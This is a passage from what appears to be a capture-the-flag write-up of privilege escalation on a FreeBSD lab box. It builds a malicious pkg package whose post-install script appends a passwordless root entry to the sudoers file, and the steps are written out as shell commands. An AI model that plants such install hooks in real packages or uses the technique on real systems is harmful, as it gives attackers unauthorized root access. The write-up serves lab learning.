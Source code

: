 In practice this creates the metadata files that Schooled was requesting when it ran `pkg update` and `pkg install`.

Because I need access to `pkg`, I could create a FreeBSD VM, or I could just work from a staging directory on Schoool. I’ll do the latter.

#### Generate Package

I’ll create a staging directory to work from:

```

jamie@Schooled:/var/tmp $ mkdir .0xdf

```

I tried a couple ways to get a shell as root, but the one that ultimately ended up working was to write to the `sudoers` file:

```

jamie@Schooled:/var/tmp/.0xdf $ cat > +POST_INSTALL <<EOF
> echo "jamie ALL=(ALL) NOPASSWD: ALL" >> /usr/local/etc/sudoers
> EOF

```

Next the manifest file, using the template from the blog post (many of these fields are probably not necessary):

```

jamie@Schooled:/var/tmp/.0xdf $ cat > +MANIFEST <<EOF
name: "0xdf"
version: "1.0_5"
origin: sysutils/0xdf
comment: "0xdf was here"
desc: "moar root plz"
maintainer: 0xdf@schooled.htb
www: https://0xdf.gitlab.io
prefix: /
EOF

```

Create the config file and `plist`:

```

jamie@Schooled:/var/tmp/.0xdf $ mkdir -p usr/local/etc
jamie@Schooled:/var/tmp/.0xdf $ echo "# nothing to see here" > usr/local/etc/0xdf.conf
jamie@Schooled:/var/tmp/.0xdf $ echo "/usr/local/etc/0xdf.conf" > plist

```

Now I’ll create the package with `pkg create` which generates `0xdf-root-1.0_5.txz`:

```

jamie@Schooled:/var/tmp/.0xdf $ pkg create -m /var/tmp/.0xdf/ -r /var/tmp/.0xdf/ -p /var/tmp/.0xdf/plist -o .
jamie@Schooled:/var/tmp/.0xdf $ ls
+MANIFEST       +POST_INSTALL   0xdf-1.0_5.txz  plist           usr

```
